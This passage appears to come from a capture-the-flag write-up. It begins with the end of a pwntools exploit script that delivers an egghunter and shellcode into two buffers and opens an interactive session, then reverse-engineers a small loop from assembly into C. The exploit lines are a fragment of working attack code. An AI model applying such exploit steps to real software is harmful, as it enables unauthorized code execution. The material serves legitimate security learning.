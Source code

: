 ```
""")

# We first input the egghunter shellcode into the small buffer.
p.sendline(egghunter)

# And we send the egg followed by our read and write shellcode into the large buffer.
p.sendline(egg+shellcode)

p.interactive()
```

re challenge (chall2)
=============
General overview of problems faced
-------------------------------------
To reverse engineer the assembly, I first looked for any familiar patterns. I immediately noticed
that there was a loop in this function. This is because the value 0 is loaded into a register, and then compared to 0x9. If it is less than or equal to 9, then it enters the green branch, otherwise it enters the red branch and returns from the function. Hence, this is the while condition for the loop.

We can also see at the bottom of the assembly an instruction to add 1 to our loop counter, and then after this it enters the comparison with 9 again. Hence, I was able to add the 'i++' at the end of the loop.

Once entering the loop, we see that the loop counter is loaded into the eax register before the 'and' instruction is performed on itself and 1. If the result is 0, we skip the next part of code. I was able to determine that this was simply performing a logical '&' on our counter and 1, and then checking if it was equal to 0.

Finally, if this if condition is true, we can see that some values are pushed to the stack and then printf is called. One of these values is our loop counter, and the other is from the data section, so I assumed this is the string formatter "%d\n".

Once putting this code together, I simply had to define the main function, as well as include the stdio library, and this function was complete.

```C
#include <stdio.h>

int main(int argc, char** argv) {

  int i = 0;
  while (i <= 9) {
    if (i & 1 != 0) {
      printf("%d\n", i);
    }
    i++;
  }

  return 1;
}
```
